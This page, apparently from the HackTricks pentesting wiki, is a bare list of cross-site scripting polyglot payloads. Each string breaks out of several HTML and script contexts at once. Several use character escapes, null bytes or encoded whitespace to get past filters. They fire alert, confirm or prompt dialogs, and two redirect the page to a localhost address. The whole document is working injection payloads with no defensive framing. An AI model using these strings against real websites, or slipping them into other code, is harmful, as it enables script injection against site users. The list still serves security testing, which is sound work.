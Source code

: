 ```markup
javascript://'//" --></textarea></style></script></title><b onclick= alert()//>*/alert()/*
javascript://</title></textarea></style></script --><li '//" '*/alert()/*', onclick=alert()//
javascript:alert()//--></script></textarea></style></title><a"//' onclick=alert()//>*/alert()/*
--></script></title></style>"/</textarea><a' onclick=alert()//>*/alert()/*
/</title/'/</style/</script/</textarea/--><p" onclick=alert()//>*/alert()/*
javascript://--></title></style></textarea></script><svg "//' onclick=alert()//
/</title/'/</style/</script/--><p" onclick=alert()//>*/alert()/*
-->'"/></sCript><svG x=">" onload=(co\u006efirm)``>
<svg%0Ao%00nload=%09((pro\u006dpt))()//
javascript:"/*'/*`/*\" /*</title></style></textarea></noscript></noembed></template></script/--><svg/onload=/*<html/*/onmouseover=alert()//>
javascript:"/*\"/*`/*' /*</template></textarea></noembed></noscript></title></style></script>--><svg onload=/*<html/*/onmouseover=alert()//>
javascript:`//"//\"//</title></textarea></style></noscript></noembed></script></template><svg/onload='/*--><html */ onmouseover=alert()//'>`
%0ajavascript:`/*\"/*-->&lt;svg onload='/*</template></noembed></noscript></style></title></textarea></script><html onmouseover="/**/ alert(test)//'">`
javascript:/*--></title></style></textarea></script></xmp><svg/onload='+/"/+/onmouseover=1/+/[*/[]/+document.location=`//localhost/mH`//'>
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=document.location=`//localhost/mH`//>
```
{{#include ../../banners/hacktricks-training.md}}
